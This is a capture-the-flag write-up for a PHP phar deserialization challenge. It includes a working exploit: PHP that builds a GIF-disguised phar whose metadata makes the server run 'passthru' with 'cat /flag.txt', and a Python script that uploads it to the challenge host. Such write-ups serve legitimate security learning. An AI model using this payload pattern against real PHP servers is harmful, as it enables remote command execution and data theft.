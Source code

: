 # solution

Firstly, i look around all source codes and the tiltle of the challenge and i think this vulnerability related to "phar wrapper" and two things we need to know.

```
if (move_uploaded_file($tmpFile, $targetFile)) {
            if (isset($_POST['emergent']))
                $targetFile = 'phar://' . $targetFile;
```

we need parameter **emergent** to access **phar://** url where the vulnerability exists. And in that source code its require supermarket.php.

```
<?php
function goodbye($customer) {
    echo "Good bye, $customer!\n";
}

class Supermarket {
    public $greet = 'goodbye';
    public $customer = 'dream';
    function __destruct() {
        call_user_func($this->greet, $this->customer);
    }
}
?>
```

You see when the server deserialization it will call **\_\_destruct()** and run the funtion **call_user_func()** it will like "Good bye, dream". Hmm can we run sth like "cat flag.txt". After a long time searching and find sth useful, here is how to solve this challenge. Firstly you need to creat a php file "exploit.php"

```
<?php
class Supermarket {
    public $greet = 'goodbye';
    public $customer = 'dream';
    function __destruct() {
        call_user_func($this->greet, $this->customer);
    }
}

$phar = new Phar('payload.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'test');
$phar->setStub('GIF89a'.'<?php __HALT_COMPILER();?>');

$object = new Supermarket();
$object->greet = "passthru";
$object->customer = "cat /flag.txt";

$phar->setMetadata($object);
$phar->stopBuffering();
?>
```

i will summarize the meaning of this code:

1. Define "supermarket" class
2. Create the Phar file:

- $phar = new Phar('payload.phar');: Creates a Phar object linked to the file payload.phar.
- $phar->startBuffering();: Starts buffering to create the Phar file.
- $phar->addFromString('test.txt', 'test');: Adds a file named test.txt to the Phar with the content test.
- $phar->setStub('GIF89a'.'<?php __HALT_COMPILER();?>');: Sets the stub for the Phar file, meaning the first part of the Phar file will contain the string GIF89a to mimic a GIF image file, followed by <?php __HALT_COMPILER();?> to stop the PHP code execution.

3. create and set up a malicious object:

- $object = new Supermarket();: Creates an object of the Supermarket class.
- $object->greet = "passthru";: Sets $greet to "passthru", a PHP function used to execute system commands.
- $object->customer = "cat /flag.txt";: Sets $customer to "cat /flag.txt", a system command to read the content of the flag.txt file.

4. Add the object to the Phar and finish:

- $phar->setMetadata($object);: Assigns the $object as the metadata of the Phar file. This metadata will be unserialized when the Phar is opened.
- $phar->stopBuffering();: Finalizes the creation of the Phar file and writes it to the disk. <br>

run this php code by:

```
php --define phar.readonly=0 exploit.php
```

it creates a .phar file with content:
![alt text](image.png)<br>

When you upload this file (i will talk how to do that below), the server will deserialization this content and greet become "passthru" and customer become "cat /flag.txt" and run "call_user_func" <br>
Next you change the name of phar from "payload.phar" become "payload.gif" (rename in normal way, like you rename a file).
Finally, create a python file

```
import requests

url = 'http://host3.dreamhack.games:16442'

data = {
    'submit': 1,
    'emergent': 1,
}

with open('payload.gif', 'rb') as f:
    r = requests.post(url, files={'fileToUpload': f}, data=data)

print(r.text)
```

Run this paython and you have the flag.

# preferences:

https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization

And a friend i meet in discord, thank you very much buddy.
